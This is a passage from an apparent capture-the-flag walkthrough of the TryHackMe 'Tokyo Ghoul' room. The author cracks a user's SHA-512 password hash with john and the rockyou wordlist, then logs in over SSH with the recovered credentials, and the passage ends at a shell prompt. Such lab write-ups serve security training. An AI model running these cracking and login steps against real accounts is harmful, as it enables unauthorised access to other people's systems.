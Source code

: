 Rize's username: `kamishiro`

### what is rize password?

Now that we have a username and password hash, we can either brute-force the ssh service or we can try try to crack the password hash. I decided to crack the hash. I used `john` and `rockyou` wordlist:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Tokyo_Ghoul/files]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt rize.hash
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
password123      (?)
1g 0:00:00:00 DONE (2021-10-30 12:37) 1.136g/s 1745p/s 1745c/s 1745C/s kucing..mexico1
Use the "--show" option to display all of the cracked passwords reliably
Session completed
~~~

Rize's password: `password123`

## [Task 5] Fight Jason

Finnaly i got Rize kagune help me fight Jason and get root.

### user.txt

Now that we have the credentials (`kamishiro:password123`), let's connect to the machine via ssh. I found the user flag in kamishiro's home directory:

~~~
┌──(user㉿Y0B01)-[~/Desktop/walkthroughs/thm/Tokyo_Ghoul]
└─$ ssh kamishiro@$IP
kamishiro@10.10.217.179's password: 
Welcome to Ubuntu 16.04.7 LTS (GNU/Linux 4.4.0-197-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


This system is built by the Bento project by Chef Software
More information can be found at https://github.com/chef/bento

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

Last login: Sat Jan 23 22:29:38 2021 from 192.168.77.1
kamishiro@vagrant:~$ id
uid=1001(kamishiro) gid=1001(kamishiro) groups=1001(kamishiro)
kamishiro@vagrant:~$ ls
~~~